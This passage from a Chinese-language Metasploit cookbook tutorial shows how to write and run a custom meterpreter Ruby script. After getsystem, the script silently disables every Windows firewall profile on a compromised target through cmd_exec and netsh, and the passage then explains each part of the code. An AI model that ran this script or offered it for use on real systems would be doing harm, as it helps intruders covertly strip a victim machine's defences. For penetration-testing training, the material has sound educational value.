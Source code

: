 一旦您输入了代码，请将其保存为`myscript.rb`，保存在`/pentest/exploits/framework3/scripts/meterpreter`目录下。

1.  执行此脚本，我们将需要一个 meterpreter 会话。可以使用`run`命令来执行 Ruby 脚本。但是，在使用脚本之前，请确保您在目标机器上拥有系统特权。

```
meterpreter > getsystem
...got system (via technique 4).
meterpreter > run myscript.rb
[*] disabling the default firewall
meterpreter > 
```

成功执行脚本将悄悄地禁用默认防火墙。命令的执行发生在后台，因此目标用户对此毫不知情。现在让我们详细了解脚本。

## 它是如何工作的...

让我们分析脚本的每个部分。

```
opts = Rex::Parser::Arguments.new(
"-h" => [ false, "Help menu." ]
)
opts.parse(args) { |opt, idx, val|
case opt
when "-h"
print_line "Meterpreter Script for disabling the Default Windows Firewall"
print_line "Let's hope it works"
print_line(opts.usage)
raise Rex::Script::Completed
end
} 
```

这些代码行只是我们可以与脚本一起传递的选项。在此脚本中，我们可以使用的唯一选项是`-h`参数，它显示脚本的使用消息。您可以将此代码片段保存为创建脚本选项的模板。您将遇到几个代码片段，可以直接在您自己的脚本中使用。

脚本从创建一个哈希（opts）开始，其中包括 Rex 库，Rex 库是 Ruby 扩展库的简写。唯一的键是`-h`。使用值设置为'false'，这意味着这是脚本的可选参数。代码的下几行将提供的选项与脚本匹配，并跳转到特定情况以使用`print_line()`显示消息。在我们的情况下，我们只使用了一个选项（`-h`）。

```
unsupported if client.platform !~ /win32|win64/i
begin
print_status("disabling the default firewall")
cmd_exec('cmd /c','netsh advfirewall set AllProfiles state off',5)
end 
```

脚本的这部分是操作特定的。它从验证客户端操作系统开始。然后使用 meterpreter mixin `cmd_exec()`，它可以作为隐藏和通道化执行命令。要执行的命令是`netsh advfirewall set AllProfiles state off`。mixin 在客户端机器上调用此命令，与命令提示符一起成功执行，禁用了 Windows 防火墙。

您可以通过添加更多功能并尝试不同的可能性来玩弄脚本。您实验得越多，学到的就越多。

这是如何构建 meterpreter 脚本的简短演示。在下一个配方中，我们将详细了解高级 meterpreter 脚本。

## 还有更多...
